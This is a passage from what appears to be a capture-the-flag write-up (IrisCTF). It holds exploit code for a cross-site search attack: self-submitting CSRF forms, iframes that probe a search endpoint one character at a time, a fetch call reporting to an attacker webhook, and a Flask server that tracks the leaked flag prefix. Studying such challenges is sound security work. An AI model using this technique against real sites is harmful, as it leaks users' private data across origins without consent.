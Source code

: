 ```js
                        </form\x3e
                        <script\x3e
                        document.forms[0].submit();
                        <\/script\x3e
                    </body\x3e
                    </html\x3e`
                    console.log(r + charset[_])
                    let iframeWrap = document.createElement('iframe')
                    iframeWrap.src = data_csrf
                    iframeWrap.id = "nyx_"+(charset[_]).replace("}", "_")
                    document.body.appendChild(iframeWrap)
                }
                await sleep(1*1000)
                    
                for(let _ in charset){
                    let iframeWrap = document.body.querySelector("#nyx_"+(charset[_]).replace("}", "_"))
                    iframeWrap.src = remote + `search?query=${r + charset[_]}`
                }

                await sleep(3*1000)
                await fetch(webhook + `iterate?c=CHECK`)
                location.reload()
            })
        }
        main()
    </script>
</body>
</html>
```

Server-side
```python
from flask import *
import string

chars = []
known = "irisctf{"
app = Flask(__name__)

@app.after_request
def csp(response):
    response.headers["Access-Control-Allow-Origin"] = "*"
    return response

@app.route("/")
def index():
    return "idklol"

@app.route("/start_exp")
def exp():
    return send_file("index.html")

@app.route("/known")
def known_():
    global known
    print(known)
    return known

def check_not_exists():
    global chars, known
    charset = list(string.ascii_lowercase + "_}")
    for x in chars:
        if x in charset:
```

[^1]:  [The next step toward phasing out third-party cookies in Chrome](https://blog.google/products/chrome/privacy-sandbox-tracking-protection/)